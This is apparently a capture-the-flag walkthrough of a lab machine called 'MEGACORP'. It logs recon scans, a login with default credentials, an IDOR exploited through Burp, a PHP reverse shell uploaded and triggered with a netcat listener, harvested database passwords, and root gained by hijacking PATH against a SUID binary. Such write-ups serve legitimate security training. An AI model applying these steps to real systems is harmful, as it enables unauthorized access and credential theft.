 # 10.10.10.28

---

# nmap -sS -sC -sV -O -oX ./nmap/init.xml 10.10.10.28

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

---

##  gobuster -w ./../SecLists-2021.2/Discovery/Web-Content/quickhits.txt -u 10.10.10.28 -q -r dir

```
//index.phps (Status: 403)
//server-status/ (Status: 403)
//uploads/ (Status: 403)
```

---

## Found exploit for OpenSSH <7.7 Username Enumeration

++ [Exploit-db](https://www.exploit-db.com/exploits/45233)

Python code is in `exploit_ssh_7_6.py`.
Code seems to be broken. Even after fixing parantesis problems.

---

## Used Burp to examine the site.

Packages reveal `10.10.10.28/cdn-cgi/login`.
Login site has Username and Password requirements.

Simply by tring:
Username: admin
Pass: MEGACORP_4dm1n!!

---

## Sublinks:

Clients link exposes:
```
Client ID	Name	Email
1	Tafcz	john@tafcz.co.uk
```

Account link exposes:
```
Access ID	Name	Email
34322	admin	admin@megacorp.com
```

Uploads page is locked behind super admin rights.

---

## Attacking with Burp repeater

`id=1` variable is exposed through the URL. We can enumerate this.
After using Burp to attack, the id for super admin gets exposed.

Super Admin ID: 30

---

## Accessing account page of Super Admin

There is no authorazitation gate. Modifiying the payload on Burp to match Super Admin's ID reveals their account page:
```
Access ID	Name	Email
86575	super admin	superadmin@megacorp.com
```

Super Admin Access ID: 86575
Role: super admin

---

## Get reverse shell inside the system

Reverse shell with PHP from ++ [here.](https://github.com/pentestmonkey/php-reverse-shell)
Saved in .reverse-shell.php
Needs IP and Port supplied.
We upload this file and modify the payload again.

---

## Finding where it ended up

Python program [dirsearch](https://github.com/maurosoria/dirsearch) helps out here.

---

## python3 dirsearch.py -u http://10.10.10.28 -e php

```
[02:57:11] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/
```

---

## curl http://10.10.10.28/uploads/reverse-shell.php

```
sudo nc -lvnp 443	//	To listen.
```

---

## After the reverse shell, we search for credentials.

Going back to the website's folders reveals `db.php`. Inside it are some credentials:
```
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

Username: robert
Pass: M3g4C0rpUs3r!

Using `id robert` reveals:
```
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

Using `su robert` and entering the pass enables us to take over `robert` user's identity.

---

## find / type f -group bugtracker 2>/dev/null

```
/usr/bin/bugtracker
```

---

## ls -la bugtracker

```
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 bugtracker
```

It is owned by root. Let's run it.

---

## The reverse shell dropped, but we have credentials.

After `ssh robert@10.10.10.28`, we enter the same pass and we are in. This is officially.

---

## We use `strings` on bugtracker

```
...
cat /root/reports/
...
```

This is a relative path instead of absolute. We can abuse this.

---

## Creating a shell disguised as cat

```
export PATH=/tmp:$PATH
cd /tmp/
echo '/bin/sh' > cat
chmod +x cat
```

---

## We run bugtracker once more and supply id=1 as the bug id.

This runs cat on the local working directory. It was cat in it and it is run by root priviliges. But cat is actually a shell and now we have privileged shell.

---

Last thing I have done is to remove false cat file and `tmp` from PATH. Now I can cat out root.txt and this is it.
